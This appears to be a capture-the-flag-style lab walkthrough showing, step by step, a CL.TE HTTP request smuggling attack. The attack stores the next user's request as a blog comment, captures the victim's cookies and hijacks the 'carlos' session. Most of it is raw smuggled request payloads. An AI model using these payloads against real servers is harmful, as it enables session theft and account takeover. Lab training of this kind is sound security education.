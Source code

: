 # Exploiting HTTP request smuggling to capture other users' requests

## This lab involves a front-end and back-end server, and the front-end server doesn't support chunked encoding.

## To solve the lab, smuggle a request to the back-end server that causes the next user's request to be stored in the application. Then retrieve the next user's request and use the victim user's cookies to access their account.

step 1

```
Transfer-Encoding: chunked

userid=test
```

![screenshot](./images/images_lab9/lab9_post_request_500_error.png)

step 2

```
Content-Length: 21
Transfer-Encoding: chunked

b
userid=test
0


```

![screenshot](./images/images_lab9/lab9_post_request_200_ok.png)

step 3

```
Content-Length: 20
Transfer-Encoding: chunked

b
userid=test
0


```

![screenshot](./images/images_lab9/lab9_post_request_500_cl.png)

step 4

```
Content-Length: 135
Transfer-Encoding: chunked

b
userid=test
0


POST /post?postId=5 HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 11

userid=test

```

![screenshot](./images/images_lab9/lab9_method_not_allowed.png)

step 5

```
Content-Length: 134
Transfer-Encoding: chunked

b
userid=test
0


GET /post?postId=5 HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 12

userid=test
```

![screenshot](./images/images_lab9/lab9_post_id_5_payload.png)

step 6

```
Content-Length: 118
Transfer-Encoding: chunked

0


GET /post?postId=5 HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 12

userid=test

```

![screenshot](./images/images_lab9/lab9_get-post_request.png)

step 7

post comment and intercept

```
csrf=D5a7tvBfmUgluc1MpJYSpRDZnixghk2x&postId=3&comment=this+is+test&name=testname&email=test%40mail.com&website=
```

![screenshot](./images/images_lab9/lab9_post_comment.png)

step 8

![screenshot](./images/images_lab9/lab9_add_copy_csrf_section_with_comment.png)

step 9

post comment with different comment

![screenshot](./images/images_lab9/lab9_remove_unnesaary_header.png)

step 10

final payload testing

```
csrf=D5a7tvBfmUgluc1MpJYSpRDZnixghk2x&postId=3&comment=this+is+test&name=testname&email=test%40mail.com&website=
```

change comment section like this

```
csrf=D5a7tvBfmUgluc1MpJYSpRDZnixghk2x&postId=3&name=hackk&email=test1%40mail.com&website=&comment=
```

```
Content-Length: 254
Transfer-Encoding: chunked

0

post /post/comment HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 113
Cookie: session=oRaLAPeBQwjMu7hH7CY3ApQxu34w7O4t

csrf=D5a7tvBfmUgluc1MpJYSpRDZnixghk2x&postId=3&name=hackk&email=test1%40mail.com&website=&comment=
```

![screenshot](./images/images_lab9/lab9_post_comment_payload.png)

step 11

increase content-Length with `900` to get session id

```
cookie: victim-fingerprint=4qXhX3JGIaZ1nPA7DfDUN3o3x3j0QUFk;
secret=biu3gp5YN1RAKIZOStdiVv3xysxFQ0fB;
session=s47pz7I1zqG9g5mnsLTjYxHstu2CUtpq
```

![screenshot](./images/images_lab9/lab9_add_content_length_900.png)

step 12

login carlos account with any random password
and intercept and replace session id with session id from step 11

![screenshot](./images/images_lab9/lab9_intercept_carslos_account.png)

![screenshot](./images/images_lab9/lab9_lab_solved.png)
